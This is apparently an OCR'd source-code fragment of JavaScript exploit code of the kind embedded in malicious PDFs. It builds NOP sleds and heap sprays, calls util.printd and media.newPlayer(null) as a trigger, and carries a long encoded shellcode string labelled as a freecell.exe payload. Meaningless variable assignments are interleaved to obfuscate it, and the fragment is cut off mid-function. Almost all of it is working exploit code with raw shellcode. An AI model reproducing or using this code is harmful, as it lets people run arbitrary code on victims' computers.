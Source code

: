 ```js
                  nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
                  while (nopsled.length < chunk_size)
              nopsled += nopsled;
                  nopsled_len = chunk_size - (payload.length + 20);  
                  nopsled = nopsled.substring(0, nopsled_len);
                  heap_chunks = new Array();
                  for (var i = 0 ; i < 2500 ; i++)
              heap_chunks[i] = nopsled + payload;
 

                  util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
                  try {
              media.newPlayer(null);
                  } catch(e) {}
                  util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
}

function cN() {
        var o = "o";
              // freecell.exe payload
        var payload = unescape("%uc929%u65b1%ud7db%u74d9%uf424%u83b8%u3830%u5b84%u4331%u0313%u1343%u6883%udacc%u8571%u413d%u6a30%u13f7%ub07d%u5c06%uc249%ube91%u3948%ud6a4%u4246%ud958%uf0e9%ubf3e%ucb93%uf8bc%u520a%u60a7%ubd5e%u804d%ub8b6%ub75a%u5391%uf6b0%ub933%uea10%ubade%u91ba%ud64b%u1fdb%ub411%ub731%u92ab%uf842%u2a7a%ua0b8%uc819%uc7af%u9bee%u7d10%u4e2e%u4201%u8a96%ude7c%ud1cb%u20f0%ue235%uf4e3%u33a8%u6fbe%u8396%u15b9%ub97f%ud56a%u2c92%uf698%ud416%u50c7%u7361%u386d%u1a83%ue308%u7fb1%u7a3f%u20ac%u90a8%u2d99%u544b%u1868%ucced%u8012%u7b51%u7bef%u4d0b%u4095%u10c6%udea5%ue327%u47ed%u9d3e%u28f4%u51cb%ucfd7%u746c%u8c04%u286b%u95cd%u4396%u0b57%u58e2%ue11e%u508a%uab14%uf7cf%uab12%ufb47%u96c3%u9932%ud41d%u3bda%u7d77%uf214%ub242%u636f%u299d%u2962%u7be8%u7fe4%ub283%ub18f%uee39%u7b09%ub7de%ue345%u8c16%u2e59%u59c0%u6fa5%u263f%uda5e%u8219%ua5d1%u54fc%u0474%u75fc%u53b1%u7f0b%u599a%u9409%u48e7%uf318%u71c6%uc930%u6317%u3126%ua923%u2249%ua830%u4247%uad22%u3340%ude7b%u9f86%ue365%u8693%ufdba%u5594%u0f8f%u59bf%u0de8%u74d9%u16ff%ua327%u1cf0%ub333%u021a%uda1c%u2831%u2868%u583f%u1c0a%u720b%u6af0%u8a62%u64fe%u8883%u7ecc%u83ab%u823a%ufd8c%u0ead%u8e59%uc117%u0c8e%u7204%ufeb6%ue3bc%u9a56%u9545%u10c3%u0698%ube7e%ub5ca%u6f07%u2a75%u0a8a%uc717%ub603%u44b8%u59bc%ue62b%uf459%u93d4%u658e%u377a%u14a6%ua20e%ue517%u49c0%u6cd0%u419d");
              this.dN = "";
        var nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A");
        var hW = new String();
        var heapblock = nop + payload;
        this.qA = "qA";
        var bigblock = unescape("%u0A0A%u0A0A");
        this.alphaY = 12267;
        var headersize = 20;
        var spray = headersize + heapblock.length;
        var jZ = '';
        var jY = "";
        while (bigblock.length < spray) {
              this.r = "r";
              bigblock += bigblock; 
              var edit = "edit";
        }
        this.xGoogle = '';
        this.vY = false;
        var fillblock = bigblock.substring(0, spray);
        var iP = function() {};
        var block = bigblock.substring(0, bigblock.length - spray);
        var googleD = false;
        this.fUEdit = "";
        while (block.length + spray < 0x40000) {
              block = block + block + fillblock;
              this.bJ = '';
        }
        var googleQ = '';
        this.nW = '';
```